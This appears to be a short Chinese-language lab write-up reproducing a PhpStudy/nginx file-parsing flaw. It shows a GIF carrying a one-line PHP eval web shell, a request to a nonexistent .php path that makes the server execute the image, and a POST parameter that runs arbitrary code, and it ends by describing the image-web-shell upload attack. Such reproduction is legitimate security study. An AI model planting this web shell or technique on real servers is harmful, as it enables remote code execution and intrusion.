 ## 使用存在漏洞的PhpStudy版本搭建本地服务器
![](./server1.png)
## 复现步骤
### 在根目录放入含有恶意php代码的图片test.gif
```
php代码例如：<?php eval($_POST['1']);?>
```
### 尝试访问一个不存在*.php文件，nginx会自动解析上层目录文件test.gif为可执行代码
![](./visit1.png)
### 向图片内的恶意代码传递参数,攻击成功
```
1=echo "<script>alert('hello world')</script>";
```
![](./attack1.png)
### 应用：上传图片马，故意访问不存在的php文件导致服务器解码执行上层文件，并执行任意代码